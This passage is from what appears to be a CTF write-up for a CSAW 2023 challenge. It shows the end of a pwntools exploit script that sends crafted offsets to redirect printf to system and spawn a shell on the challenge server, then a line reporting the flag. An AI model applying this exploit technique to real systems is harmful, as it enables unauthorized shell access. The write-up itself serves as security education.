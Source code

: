     plain = 0x746f742072756f59

    r.sendlineafter(":","-12")
    r.sendlineafter(":",str(((binsh*2) - plain)))
    r.sendlineafter(":","-24")
    r.sendlineafter(":",str((((syste*2) - printf))))
    # r.sendline(str(rv))
    # r.sendline("$p"*900)
    r.interactive()


if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("double-zer0.csaw.io", 9999)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)
{% endhighlight %}

run the exploit and we got the flag


<img src="/images/csaw2023/dvd3.png">